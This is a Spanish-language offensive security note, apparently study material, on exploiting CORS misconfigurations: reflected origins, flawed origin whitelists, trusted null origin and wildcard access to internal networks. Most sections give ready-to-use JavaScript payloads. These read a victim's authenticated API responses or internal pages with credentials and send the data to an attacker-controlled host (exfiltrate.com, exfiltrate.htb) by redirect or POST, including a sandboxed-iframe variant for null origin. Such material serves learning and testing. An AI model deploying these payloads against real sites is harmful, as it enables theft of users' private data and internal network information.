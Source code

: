 ### Contexto

- La mayoría de los ataques en CORS requieren que la header **Access-Control-Allow-Credentials** esté seteada en **true** para poder tener un contexto de autenticación de la víctima.
- De lograrse un ataque teniendo en cuenta el caso anterior saliendo desde un servicio controlado por el atacante la vulnerabilidad es similar al CSRF pero más severa.
- Dependiendo de la configuración específica del CORS el atacante puede potencialmente interactuar con la aplicación impersonando a la victima y ejecutando acciones sobre su comportamiento.


Si la header Access-Control-Allow-Credentials no está seteada, el atacante no podrá continuar con los ataques antes mencionados. Sin embargo, **una mala configuración de CORS en una aplicación web interna puede permitir a un atacante exfiltrar información no pública**

---

## Arbitrary Origin Reflection

La header Access-Control-Allow-Origin contiene los origenes que tienen permitido baypassear la SOP. El header puede ser seteado con un wildcard (*) que resulta en el permiso de todos los origenes.Por motivos de seguridad **EL WIDLCARD NUNCA DEBE SER SER COMBINADO CON Access-Control-Allow-Credentias seteado a true**

Podemos identificarla si vemos que en la cabecera Access-Control-allow-Origin de la response se refleja la cabeceras Origin o Referer de la request.

Si esto último se da y la header Access-Control-Allow-Credentials está seteada en true podemos explotarla.

### Explotación:

Creamos un payload en un sitio controlado por nosotros donde se indique el recurso a exfiltrar por medio de un get, que se haga con credenciales, el sitio al que van a ser reenviados los datos y luego un send de manera automática. Y se lo hacemos llegar a la víctima.

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>

## Improper Origin Whitelist

Esta explotación se basa en un error de configuración en la implementación de whitelist de los trusted origin. Requiere nuevamente el header Access-Control-Allow-Credentials seteado en true.

Imaginamos que el sitio *api.vulnerable.com* quiere permitir las request de todos los subdominios de *vulnerable.com*. Al validar el origen solo se fijará en que el mismo termine en *vulnerable.com* sin importar qué venga detrás. 

Esto permite a un atacante crear una web llamada **attackervulnerable.com** y cumplir con los requisiros del filtro de la whitelist.

La explotación es, entonces, exáctamente igual a la de arbitrary origin reflection.


## Trusted Null Origin.

La explotación se da cuando la cabecera de la response Access-Control-Allow-Origin está seteada en null y la header Access-Control-Allow-Credentials está seteada a true.

**EN LA PRACTICA LA CABECERA ACCESS-CONTROL-ALLOW-ORIGIN NUNCA DEBE ESTAR SETEADA EN NULL**. Sin embargo, los programadores suele confundirse con el sigificado de la misma pensando que es un "bloqueador total".

### Explotación.
La explotación es muy similar a las anteriores pero dentro de un **iframe**. De esta manera no es el sitio el que está haciendo la request sino el objeto (iframe), de esta manera el origen es nulo.

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.com/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          location = 'http://exfiltrate.com/log?data=' + btoa(xhr.response);
        };
        xhr.send();
    </script>"></iframe>

## Targeting The local network

Este ataque no requiere la cabecera Access-Control-Allow-Credentials.

En el caso de que el header Access-Control-Allow-Origin esté seteado con un wildcard podemos buscar exfiltrar apis o sitios internos de la infraestructura si la victima se encuentra conectada desde dentro de la red de la organización.

No es buena idea exfiltrar una página mediante el método GET porque la URL no es ilimitada y el contenido puede muy facilmente superar la cantidad de caracteres disponibles. Es mejor, en el caso de un exfiltrado total, usar el método POST y guardar todo en un parámetro.
Otra forma de hacerlo, mediante el método GET es filtrar el resultado por los datos que pueden sernos importantes mediante la funcion getElementById:

### Ejemplo de payload en GET:

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://api.vulnerablesite.htb/data', true);
        xhr.withCredentials = true;
        xhr.onload = () => {
          // parse the response
    	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');
    
    	  // exfiltrate only the interesting element
    	  var msg = encodeURIComponent(doc.getElementById('secret').innerHTML);
          location = 'https://exfiltrate.htb/log?data=' + btoa(msg);
        };
        xhr.send();
    </script>

### Ejemplo de POST

    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://172.16.0.2/data', true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
        xhr.onload = () => {
          var exfilData = btoa(xhr.response);
          var postData = 'data=' + encodeURIComponent(exfilData);
    
          var xhr2 = new XMLHttpRequest();
          xhr2.open('POST', 'http://exfiltrate.com/log', true);
          xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
          xhr2.send(postData);
        };
    
        xhr.send();
    </script>

